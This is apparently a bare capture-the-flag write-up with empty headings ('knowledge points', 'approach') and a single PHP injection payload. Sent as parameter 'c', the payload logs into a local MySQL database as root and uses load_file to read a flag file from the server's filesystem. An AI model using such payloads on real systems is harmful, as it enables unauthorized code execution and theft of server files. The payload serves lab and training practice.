

# 知识点
# 思路
```php
c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
'root');foreach($dbh->query('select load_file("/flag36d.txt")') as $row)
{echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e-
>getMessage();exit(0);}exit(0);
```

